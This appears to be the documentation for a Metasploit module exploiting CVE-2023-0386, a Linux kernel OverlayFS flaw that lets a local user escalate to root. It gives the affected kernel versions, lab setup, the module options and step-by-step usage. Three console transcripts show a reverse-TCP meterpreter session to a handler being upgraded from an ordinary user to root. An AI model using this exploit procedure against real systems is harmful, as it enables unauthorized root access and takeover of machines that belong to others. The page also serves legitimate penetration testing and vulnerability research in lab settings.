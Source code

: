 ## Vulnerable Application

This exploit targets the Linux kernel bug in OverlayFS.

A flaw was found in the Linux kernel, where unauthorized access to the execution of the setuid file with capabilities
was found in the Linux kernel’s OverlayFS subsystem in how a user copies a capable file from a nosuid mount into another mount.
This uid mapping bug allows a local user to escalate their privileges on the system.

The vulnerability affects:

    * Linux kernel from (including) 5.11 up to (excluding) 5.15.91 and from (including) 5.16 Up to (excluding) 6.1.9

This module was successfully tested on:

    * Ubuntu kernel version 5.13.0-1021-oem on x64/amd64
    * Ubuntu kernel version 6.0.19-060019-generic on x64/amd64

### Install

1. Install Ubuntu version 22.04 LTS
2. (Optional) Change kernel version
```
sudo apt update
sudo apt install -y linux-image-5.13.0-1021-oem linux-headers-5.13.0-1021-oem
reboot
```
3. Install the required libraries
```
sudo apt update
sudo apt install -y gcc cmake fuse libfuse-dev libcap-dev
```

## Verification Steps

1. Make an Ubuntu
2. Create a meterpreter or shell payload and upload it to the Ubuntu target
3. Set up a handler for the payload
4. Launch the payload as a regular user on the Ubuntu target and connect the handler
5. Do: `use exploit/linux/local/cve_2023_0386_overlayfs_priv_esc`
6. Do: `run session=<session> lhost=<lhost>`
7. You should get a root

## Options

### COMPILE (required)

[Auto|True|False] This selects the binary to use.  True will upload the source code and perform
compilation on target, False will upload a precompiled binary.  AUTO will favor compiling on target
but will fall back to the precompiled option if a compiler cannot be found.
The default value is `Auto`

### TIMEOUT (required)

This is the amount of time (in seconds) that the module will wait for the payload to be
executed. Defaults to 60 seconds.

### WritableDir (required)
This indicates the location where you would like the payload and exploit binary stored, as well
as serving as a location to store the various files and directories created by the exploit itself.
The default value is `/tmp`

## Scenarios
### Ubuntu 6.0.19-060019-generic x64/amd64 COMPILE=Auto
```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > run lhost=192.168.56.1 lport=4444 payload=linux/x64/meterpreter/reverse_tcp

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Sending stage (3045380 bytes) to 192.168.56.10
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.10:59844) at 2024-09-09 08:22:36 +0900

meterpreter > getuid
Server username: ubu
meterpreter > background 
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/linux/local/cve_2023_0386_overlayfs_priv_esc
[*] Using configured payload linux/x64/meterpreter_reverse_tcp
msf6 exploit(linux/local/cve_2023_0386_overlayfs_priv_esc) > run session=1 lhost=192.168.56.1 COMPILE=Auto

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[-] Failed to open file: /proc/sys/kernel/unprivileged_userns_clone: core_channel_open: Operation failed: 1
[+] The target appears to be vulnerable. Linux kernel version found: 6.0.19
[*] Writing '/tmp/.AHeqRyKHX/.2zkk6' (1068952 bytes) ...
[*] Launching exploit...
[+] Deleted /tmp/.AHeqRyKHX
[*] Meterpreter session 2 opened (192.168.56.1:4444 -> 192.168.56.10:54770) at 2024-09-09 08:23:02 +0900

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.56.10
OS           : Ubuntu 22.04 (Linux 6.0.19-060019-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

### Ubuntu 6.0.19-060019-generic x64/amd64 COMPILE=True
```
msf6 exploit(linux/local/cve_2023_0386_overlayfs_priv_esc) > run session=1 lhost=192.168.56.1 COMPILE=True

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[-] Failed to open file: /proc/sys/kernel/unprivileged_userns_clone: core_channel_open: Operation failed: 1
[+] The target appears to be vulnerable. Linux kernel version found: 6.0.19
[*] Writing '/tmp/.cvnVjW/.j3OSujf' (1068952 bytes) ...
[*] Launching exploit...
[+] Deleted /tmp/.cvnVjW
[*] Meterpreter session 3 opened (192.168.56.1:4444 -> 192.168.56.10:51750) at 2024-09-09 08:23:28 +0900

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.56.10
OS           : Ubuntu 22.04 (Linux 6.0.19-060019-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

### Ubuntu 6.0.19-060019-generic x64/amd64 COMPILE=False
```
msf6 exploit(linux/local/cve_2023_0386_overlayfs_priv_esc) > run session=1 lhost=192.168.56.1 COMPILE=False

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[-] Failed to open file: /proc/sys/kernel/unprivileged_userns_clone: core_channel_open: Operation failed: 1
[+] The target appears to be vulnerable. Linux kernel version found: 6.0.19
[*] Writing '/tmp/.wWno7SA/.Bv3HUIrHyr' (18712 bytes) ...
[*] Writing '/tmp/.wWno7SA/.r1nzG9LZ' (16824 bytes) ...
[*] Writing '/tmp/.wWno7SA/.g0QNeF' (1068952 bytes) ...
[*] Launching exploit...
[+] Deleted /tmp/.wWno7SA
[*] Meterpreter session 4 opened (192.168.56.1:4444 -> 192.168.56.10:33860) at 2024-09-09 08:23:50 +0900

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.56.10
OS           : Ubuntu 22.04 (Linux 6.0.19-060019-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
